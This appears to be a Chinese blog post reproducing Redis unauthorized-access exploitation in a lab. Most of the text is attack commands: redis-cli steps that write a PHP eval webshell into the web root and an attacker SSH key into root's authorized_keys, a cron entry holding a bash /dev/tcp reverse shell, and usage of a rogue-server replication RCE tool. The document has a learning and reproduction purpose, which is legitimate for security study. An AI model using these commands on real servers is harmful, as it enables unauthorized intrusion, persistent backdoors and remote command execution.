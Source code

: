 ```yaml
---
title: Redis未授权访问
date: 2020-06-06 21:20:08
categories: 漏洞复现
tags: 未授权访问
---
```


#### 背景

Redis是一个开源的使用ANSI C语言编写、遵守BSD协议、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API，数据库默认监听端口**6379**,本实验修改端口为3901。

<!--more-->

#### 写一句话马

1.连接Redis

`redis-cli -h IP -p 端口`

2.写webshell

```
config set dir /var/www/html
config set dbfilename shell.php
set payload `<?php eval($_POST['cmd']);?>'
save
```

3.查看shell

![](http://cdn.laohuan.art/2020-06-01_21-36-42.png)

4.连接shell

![](http://cdn.laohuan.art/2020-06-01_21-35-33.png)

#### 写入shell密匙

前提是目标设置允许使用私匙登陆，且redis安装后会有一个普通redis用户，并且redis可以执行shell。若reids使用root用户运行，可将密匙写到root用户的.ssh文件下。

1.生成密匙

`ssh-keygen -t rsa`

![](http://cdn.laohuan.art/2020-06-01_6-11-15.png)

* ssh_ras为私匙
* ssh_rsa.pub为公匙

2.写入公匙

```
#Redis使用root用户运行时，密钥写入到root用户.ssh中
config set dir /root/.ssh/

#设置持久化文件名为authorized_keys
config set dbfilename authorized_keys

#写入密钥内容（需在公钥字符串前后加三个\n）
set sshpubkey "\n\n公匙内容\n\n"

#保存持久化文件
save
```

3.连接ssh

设置私匙权限

`chmod 600 ssh_ras`

使用私匙连接

`ssh -i ssh_ras root@IP`

#### 计划任务反弹shell

这一步反弹shell在Ubuntu测试失败，搜索到原因来自

[VK'blog]: http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html

，这是由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划，而ubuntu并不会忽略这些乱码，所以导致命令执行失败，因为自己如果不使用redis写任务计划文件，而是正常向/etc/cron.d目录下写任务计划文件的话，命令是可以正常执行的，所以还是乱码的原因导致命令不能正常执行，而这个问题是不能解决的，因为利用redis未授权访问写的任务计划文件里都有乱码，这些代码来自redis的缓存数据。

1.Nc监听

`nc -nlvp 3950`

2.写shell

```
set shell "\n\n* * * * * bash -i >& /dev/tcp/ip/端口 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

3.查看shell

![](http://cdn.laohuan.art/2020-06-01_09-56-59.png)

反弹shell已经写到计划任务，由于以上原因，无法反弹成功

#### 脚本

1.基于主从复制RCE

* <https://github.com/Ridter/redis-rce />
* <https://github.com/n0b0dyCN/redis-rogue-server/>

`python3 redis-rogue-server.py --rhost 目标主机 --rport 目标端口 --lhost 监听IP --lport 端口`

![](http://cdn.laohuan.art/2020-06-01_11-25-25.png)

选择1会直接得到一个shell

![](http://cdn.laohuan.art/2020-06-01_11-20-41.png)

选择2会得到一个反弹shell



#### 参考链接

<[http://www.vkxss.top/2019/05/28/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95-Redis%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E4%B9%8Bubuntu%E5%8F%8D%E5%BC%B9shell%E9%97%AE%E9%A2%98/index.html](http://www.vkxss.top/2019/05/28/渗透测试-Redis未授权访问漏洞之ubuntu反弹shell问题/index.html)/>

<https://siweicn.yuque.com/securitytech/exploit/redis/>